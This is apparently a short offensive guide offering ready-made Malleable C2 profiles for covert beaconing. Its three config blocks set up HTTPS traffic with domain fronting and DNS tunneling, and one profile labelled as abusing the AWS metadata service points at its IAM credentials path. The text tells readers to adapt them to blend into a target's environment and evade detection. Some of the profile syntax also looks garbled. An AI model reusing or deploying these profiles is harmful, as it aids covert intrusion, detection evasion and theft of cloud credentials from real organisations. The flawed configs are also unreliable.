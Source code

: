
---

1. Prebuilt Malleable C2 Profiles

These profiles control how your beacon communicates and evades detection. You can tweak them further to fit your needs.

Windows-Based C2 Profile (HTTPS with Domain Fronting)
```c
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.0.0 Safari/537.36";

http-get {
    set uri "/api/check";
    client {
        header "Host" "legit-cloud.com";
        header "User-Agent" "Mozilla/5.0 (Windows NT 10.0; Win64; x64)";
    }
    server {
        output "HTTP/1.1 200 OK" "Content-Type: application/json";
        output '{"status":"ok"}';
    }
}
```
Usage: Hides C2 traffic inside HTTPS requests. Uses domain fronting (e.g., legit-cloud.com).

Modify: Change the host and URIs to blend into your target's environment.



---

Linux-Based C2 Profile (DNS Tunneling)
```C
set sleeptime "30000";
set jitter "10";
set maxdns "255";

dns-beacon {
    set beacon "A";
    set maxdns "240";
    set dns_idle "0.0.0.0";
    set dns_stager_prepend "a.";
    set dns_stager_subhost "stage";
    set dns_stager_append ".example.com";
}
```
Usage: Uses DNS tunneling for stealth.

Modify: Change .example.com to a domain you control.



---

AWS Cloud-Based C2 (Abusing Metadata Service)
```C
http-get {
    set uri "/latest/meta-data/iam/security-credentials/";
    client {
        header "Host" "169.254.169.254";
        header "User-Agent" "Mozilla/5.0 (compatible; AWSFetcher/1.0)";
    }
    server {
        output "HTTP/1.1 200 OK" "Content-Type: application/json";
        output '{"AccessKeyId":"AKIA....","SecretAccessKey":"secret","Token":"..."}';
    }
}
```